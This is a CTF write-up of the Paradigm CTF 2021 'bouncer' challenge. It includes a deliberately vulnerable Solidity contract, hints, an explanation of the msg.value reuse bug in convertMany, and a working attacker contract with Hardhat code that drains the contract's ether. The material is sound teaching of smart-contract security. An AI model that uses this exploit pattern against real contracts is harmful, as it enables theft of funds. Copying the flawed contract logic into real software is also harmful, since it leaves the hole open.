 ```yaml
---
layout: post
title: 'Paradigm CTF 2021: bouncer'
category: Paradigm CTF 2021
excerpt_separator:  <!--more-->
---
```


### Challenge:
This write-up is for the challenge titled 'bouncer'.


This challenge is located in the bouncer/public/ directory. The source code can be found below:

<details>
<summary> Bouncer.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.8.0;

interface ERC20Like {
    function transfer(address dst, uint qty) external returns (bool);
    function transferFrom(address src, address dst, uint qty) external returns (bool);
    function approve(address dst, uint qty) external returns (bool);
    function allowance(address src, address dst) external returns (uint256);
    function balanceOf(address who) external view returns (uint);
}

contract Bouncer {
    address constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 public constant entryFee = 1 ether;

    address owner;
    constructor() payable {
        owner = msg.sender;
    }

    mapping (address => address) public delegates;
    mapping (address => mapping (address => uint256)) public tokens;
    struct Entry {
        uint256 amount;
        uint256 timestamp;
        ERC20Like token;
    }
    mapping (address => Entry[]) entries;


    // declare intent to enter
    function enter(address token, uint256 amount) public payable {
        require(msg.value == entryFee, "err fee not paid");
        entries[msg.sender].push(Entry ({
            amount: amount,
            token: ERC20Like(token),
            timestamp: block.timestamp
        }));
    }

    function convertMany(address who, uint256[] memory ids) payable public {
        for (uint256 i = 0; i < ids.length; i++) {
            convert(who, ids[i]);
        }
    }

    // use the returned number to gatekeep
    function contributions(address who, address[] memory coins) public view returns (uint256[] memory) {
        uint256[] memory res = new uint256[](coins.length);
        for (uint256 i = 0; i < coins.length; i++) {
            res[i] = tokens[who][coins[i]];
        }
        return res;
    }

    // convert your erc20s to tokens
    function convert(address who, uint256 id) payable public {
        Entry memory entry = entries[who][id];
        require(block.timestamp != entry.timestamp, "err/wait after entering");
        if (address(entry.token) != ETH) {
            require(entry.token.allowance(who, address(this)) == type(uint256).max, "err/must give full approval");
        }
        require(msg.sender == who || msg.sender == delegates[who]);
        proofOfOwnership(entry.token, who, entry.amount);
        tokens[who][address(entry.token)] += entry.amount;
    }

    // redeem your tokens for their underlying erc20
    function redeem(ERC20Like token, uint256 amount) public {
        tokens[msg.sender][address(token)] -= amount;
        payout(token, msg.sender, amount);
    }

    function payout(ERC20Like token, address to, uint256 amount) private {
        if (address(token) == ETH) {
            payable(to).transfer(amount);
        } else {
            require(token.transfer(to, amount), "err/not enough tokens");
        }
    }

    function proofOfOwnership(ERC20Like token, address from, uint256 amount) public payable {
        if (address(token) == ETH) {
            require(msg.value == amount, "err/not enough tokens");
        } else {
            require(token.transferFrom(from, address(this), amount), "err/not enough tokens");
        }
    }

    function addDelegate(address from, address to) public {
        require(msg.sender == owner || msg.sender == from);
        delegates[from] = to;
    }

    function removeDelegate(address from) public {
        require(msg.sender == owner || msg.sender == from);
        delete delegates[from];
    }

    // get all the fees given during registration
    function claimFees() public {
        require(msg.sender == owner);
        payable(msg.sender).transfer(address(this).balance);
    }

    // owner can trigger arbitrary calls
    function hatch(address target, bytes memory data) public {
        require(msg.sender == owner);
        (bool ok, bytes memory res) = target.delegatecall(data);
        require(ok, string(res));
    }
}

contract Party {
    Bouncer bouncer;
    constructor(Bouncer _bouncer) {
        bouncer = _bouncer;
    }

    function isAllowed(address who) public view returns (bool) {
        address[] memory res = new address[](2);
        res[0] = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
        res[1] = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        uint256[] memory contribs = bouncer.contributions(who, res);
        uint256 sum;
        for (uint256 i = 0; i < contribs.length; i++) {
            sum += contribs[i];
        }
        return sum > 1000 * 1 ether;
    }
}

```
</div>
</details>

<details>
<summary> Setup.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.8.0;

import "./Bouncer.sol";

interface WETH9 is ERC20Like {
    function deposit() external payable;
}

contract Setup {
    address constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    WETH9 constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    Bouncer public bouncer;
    Party public party;

    constructor() payable {
        require(msg.value == 100 ether);
        // give some cash to the bouncer for his drinks
        bouncer = new Bouncer{value: 50 ether}();

        // 2 * eth
        bouncer.enter{value: 1 ether}(address(weth), 10 ether);
        bouncer.enter{value: 1 ether}(ETH, 10 ether);

        party = new Party(bouncer);
    }

    function isSolved() public view returns (bool) {
        return address(bouncer).balance == 0;
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Pay once, get several uses!
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
How is msg.value tracked between function calls made inside of a loop?
</div>
</details>

The solution for this level can be found below:

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
The issue here comes in two parts:
1. The `proofOfOwnership()` function logic depends on the msg.value of being unique to the transaction in order to enforce a conversion amount. 
2. The `convertMany()` function performs several conversions in the same transaction, allowing us to reuse the msg.value amount.

Basically, we can convert several entries in a single `convertMany()` call while only supplying the appropriate value for one of them. In order to do this, we will create 7 entries with the token type being ETH and the token amount being 10 ether. Each entry costs 1 Ether on its face, so we have so far put 7 ether into the contract.

Next, we will call convertMany() with a msg.value of 10 eth and pass it all 7 entry ids we created. We have now put 17 ether into the contract but we have been credited with 70 ETH tokens.

Finally, we will redeem our ETH tokens for ether and we can drain the entire contract in one transaction (the contract was initialized with 50 ether, then two entries were made by the deployer for 1 ether each, and we placed 17 ether in ourselves for a total of 69 ether in the contract).
</div>
</details>

<details>
<summary> Hardhat Challenge:</summary>
<br>
<div markdown="1">
```
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] bouncer', function () {

    before(async function () {
        /** SETUP */
        [deployer, attacker] = await ethers.getSigners();

        const Setup = await ethers.getContractFactory('SetupBouncer', deployer);
        this.setup = await Setup.deploy({value: ethers.utils.parseEther('100')});

        const Bouncer = await ethers.getContractFactory('Bouncer', deployer);
        this.bouncer = await Bouncer.attach(await this.setup.bouncer());

        expect(
            await ethers.provider.getBalance(this.bouncer.address)
        ).to.equal(ethers.utils.parseEther('52'));

        const Party = await ethers.getContractFactory('Party', deployer);
        this.party = await Party.attach(await this.setup.party());

        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.equal(ethers.utils.parseEther('10000'));

    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */

    });

    after(async function () {
        /** SUCCESS CONDITIONS */

        expect(
            await this.setup.isSolved()
        ).to.equal(true);

        expect(
            await ethers.provider.getBalance(this.bouncer.address)
        ).to.equal(ethers.utils.parseEther('0'));

        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.equal(ethers.utils.parseEther('10050'));

    });
});


```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.8.0;
import "./SetupBouncer.sol";

contract BouncerAttacker {

Bouncer public bouncer;
SetupBouncer public setup;
address private attacker;
address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
uint256 public counter;
uint256[] public ids;
ERC20Like public eth_token;
    constructor(address _setup, address _bouncer, address _attacker) {
        bouncer = Bouncer(_bouncer);
        setup = SetupBouncer(_setup);
        eth_token = ERC20Like(ETH);
        attacker = _attacker;
    }

    function makeEntry() public payable {
        require(msg.value == 1 ether);
        bouncer.enter{value: msg.value}(ETH, 10 ether);
        ids.push(counter); 
        ++counter;
    }
    function attack() public payable {
        require(msg.value == 10 ether);
        require(ids.length == 7);
        bouncer.convertMany{value: msg.value}(address(this), ids);
        bouncer.redeem(eth_token, 69 ether);
        payAttacker();
    }

    receive() external payable {
    }

    function payAttacker() public payable {
        payable(attacker).transfer(50 ether);
    }

}
```
</div>
</details>

<details>
<summary> HardHat Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const BouncerAttacker = await ethers.getContractFactory('BouncerAttacker', deployer);
        this.bouncerAttacker = await BouncerAttacker.deploy(this.setup.address, this.bouncer.address, attacker.address);

        for (let i = 0; i < 7; i++) {
            await this.bouncerAttacker.makeEntry({value: ethers.utils.parseEther('1')});
        }
        expect(
            await ethers.provider.getBalance(this.bouncer.address)
        ).to.equal(ethers.utils.parseEther('59'));

        await this.bouncerAttacker.attack({value: ethers.utils.parseEther('10')});
        
        expect(
            await ethers.provider.getBalance(this.bouncer.address)
        ).to.equal(ethers.utils.parseEther('0'));

    });
```
</div>
</details>


